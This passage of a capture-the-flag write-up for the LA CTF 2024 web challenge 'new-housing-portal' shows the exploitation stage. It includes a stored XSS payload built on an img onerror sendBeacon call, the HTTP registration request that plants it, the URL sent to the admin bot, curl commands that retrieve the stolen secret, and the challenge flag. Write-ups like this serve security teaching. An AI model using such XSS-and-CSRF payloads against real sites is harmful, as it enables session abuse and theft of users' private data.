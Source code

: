 ## Exploitation

Armed with above information, we can now exfiltrate `samy`'s `deepestDarkestSecret`!

**Payload:**
```html
<img src=x onerror="navigator.sendBeacon('/finder', new URLSearchParams({username : '<username_here>'}))">
```

The above XSS payload will make the victim to send a new invite to our user. Then we can view our invitation and exfiltrate `deepestDarkestSecret`.

- Register a new user with XSS payload:

```http
POST /register HTTP/2
Host: new-housing-portal.chall.lac.tf
Content-Type: application/x-www-form-urlencoded

username=xss_user&password=pwd&name=<img+src%3dx+onerror%3d"navigator.sendBeacon('/finder',+new+URLSearchParams({username+%3a+'siunam321'}))">&deepestDarkestSecret=foobar
```

- Send the roomates finder link with our XSS user to the admin bot:

**Vulnerable DOM-based XSS URL:**
```
https://new-housing-portal.chall.lac.tf/finder/?q=xss_user
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2024/images/Pasted%20image%2020240219135217.png)

- Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/new-housing-portal)-[2024.02.19|13:52:34(HKT)]
└> curl -s -H "Cookie: auth=s%3Asiunam321.iFI1fSuHn%2FEL82kiqJWOwsLCWpF%2Fts1HqJ4QesuNLi8" https://new-housing-portal.chall.lac.tf/invitation
{"invitations":[{"from":"siunam321","deepestDarkestSecret":"todo"},{"from":"siunam321","deepestDarkestSecret":"todo"},{"from":"samy","deepestDarkestSecret":"lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}"}]}
```

**Beatified:** 
```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/new-housing-portal)-[2024.02.19|13:54:50(HKT)]
└> curl -s -H "Cookie: auth=s%3Asiunam321.iFI1fSuHn%2FEL82kiqJWOwsLCWpF%2Fts1HqJ4QesuNLi8" https://new-housing-portal.chall.lac.tf/invitation | jq -r '.invitations[2]["deepestDarkestSecret"]'
lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}
```

- **Flag: `lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`**

- Trivia: Samy Kamkar found a stored XSS vulnerability on MySpace back in 2005, and exploited the vulnerability and spread the payload like a worm virus.

## Conclusion

What we've learned:

1. Stored XSS chained with CSRF